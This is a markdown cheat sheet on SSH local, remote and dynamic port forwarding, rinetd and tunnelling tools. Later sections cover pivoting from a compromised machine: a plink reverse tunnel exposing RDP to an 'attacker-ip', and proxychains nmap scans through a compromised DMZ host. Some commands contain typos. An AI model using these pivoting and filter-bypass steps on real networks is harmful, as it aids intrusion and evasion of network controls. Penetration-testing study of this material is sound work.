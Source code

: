 # Port Forwarding

## Local Port Forwarding

```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

#### Allow connections to a specific blocked server.

From work:
```
ssh -L 9001:banned-site.com:80 user@home
curl http://localhost:9001
```

Says we’re forwarding our local port 9001 to banned-site.com:80, through the gateway `home` (port 22).

![](https://chamibuddhika.files.wordpress.com/2012/03/localportforwarding.jpg)

```
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/sshsessionforwarding.jpg)

Allow remote connections to local port forwards (listening on all interfaces)
```
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine    #Remotely
```

#### Access a port on your server which can only be accessed from localhost and not remotely.

From local machine:
```
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

Server acts as the gateway and binds server's port 5432 to local port 9000.

## Remote Port Forwarding

#### Allow remote access to restricted network.

From work:
```
ssh -R 9001:intra-ssh-server:22 user@home
```
Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

From home:
```
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

#### Allow public access to a local resource through a public server.

```
ssh -R 9000:localhost:3000 user@public_sever
```
```
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

## Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

## Tips
Monitoring Tunnels
```
netstat -tunelp
```

Avoid TTL
```
-nNT
```

## rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

## Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

## SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

## Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```

## References

### Summarized References:
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html

### New References:
- https://vimeo.com/54505525
